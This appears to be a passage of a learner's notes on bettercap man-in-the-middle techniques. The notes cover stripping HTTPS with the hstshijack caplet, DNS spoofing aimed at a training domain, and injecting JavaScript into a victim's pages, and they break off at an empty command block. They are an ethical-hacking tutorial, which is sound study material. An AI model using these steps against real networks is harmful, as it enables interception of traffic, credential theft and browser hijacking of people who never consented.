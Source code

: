**Solution:**
- Use HTTPS
- HTTPS is an adaptation of HTTP
- Encrypt HTTP using TLS (Transport Layer Security) or SSL (Secure Sockets Layer).

**Problem:**
- Most websites use HTTPS
--> Sniffed data will be encrypted

**Solution:**
- Downgrade HTTPS to HTTP

When turn on the sniff using "net.sniff on" execute
```bash
set net.sniff.local true
net.sniff on
```
Or store this to the file where commands are written to automate the bettercap. To list all the caplets
```bash
caplets.show
```
Here I am using "hstshijack/hstshijack" caplet. So
```bash
hstshijack/hstshijack
```

## DNS Spoofing:
```bash
service apache2 start
```
Now if you browse your ip, you can see the apache default website which is in "/var/www/html/".
```bash
bettercap -iface wlan0 -caplet /root/spoof.cap
```
Inside the "spoof.cap" file, the bettercap commands are present. Now to know more about "dns.spoof" module, execute
```bash
help dns.spoof
```
To change the values,
```bash
set dns.spoof.all true
set dns.spoof.domains zsecurity.org,*.zsecurity.org
```
Now start the dns
```bash
dns.spoof on
```
All websites works without only HSTS websites.

## Injecting Javascript Code:
Bettercap Code Injection
- Inject Javascript code in loaded pages
- Code gets executed by the target browser.
- This can be used to
	- Replace links
	- Replace images
	- Insert html elements
	- Hook target browser to exploitation frameworks.
	- + more!
```js
alert("Javascript test");
```
Save this code into your root directory as "/root/alert.js". ("/usr/local/share/bettercap/caplets/hstshijack/" and change the hstshijack.payloads *:/usr/.../.., *:/root/alert.js) and execute
```bash
```